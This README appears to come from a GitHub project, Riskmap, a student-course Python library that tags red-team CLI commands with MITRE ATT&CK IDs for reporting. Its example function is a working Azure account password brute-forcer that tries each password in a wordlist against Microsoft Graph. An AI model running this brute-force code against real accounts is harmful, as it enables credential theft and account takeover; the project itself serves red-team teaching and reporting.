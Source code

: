 # Riskmap

Python utility for red teaming and penetration testing CLI tools to map commands and modules to the MITRE ATT&CK framework. A sample CLI program has been provided in [riskcli.py](./samples/riskcli/riskcli.py)

## Basic Concept

This library provides a `AttckMapper` class with a `mapping` decorator that can be used on functions that perform an offensive technique.

_Example function:_

```python
@app.command()
@atmap.mapping(enterprise=["T1110.001", "M1032"])
def azbrute(
    username: str = typer.Option(..., "-u", help="Username to bruteforce"),
    passList: Path = typer.Option(..., "-p", help="Path to password list"),
):
    """Bruteforces password for an Azure account"""
    validCred = {"user": username, "pass": None}
    with open(passList, "r", encoding="latin-1") as passes:
        for pwd in passes.read().splitlines():
            login = UsernamePasswordCredential(
                "1950a258-227b-4e31-a9cf-717495945fc2", username, pwd
            )
            try:
                token = login.get_token("https://graph.microsoft.com/.default")
                validCred["pass"] = pwd
            except ClientAuthenticationError as e:
                pass

    if not validCred["pass"]:
        raise CommandUnsuccessfulError(f"Brute force for {username} unsuccessful")
    typer.echo(f"\nCredential found! - {validCred}\n")
```

The decorator function will perform as normal and actions will be logged. When a report is generator, the IDs are looked up to provide a comprehensive description of what events took place, the techniques involved, and any additional references found in the MITRE matrices (CWE, CAPEC, etc).

This library has been tested with the [Typer](https://typer.tiangolo.com/) and therefore should also work with the [Click](https://github.com/pallets/click) library as well. By all accounts, the decorator should work with any normal synchronous function.

### Note

**_This library was written for Dakota State University's Managing Security Risk course and may not be maintained in the future. This is a proof-of-concept._**
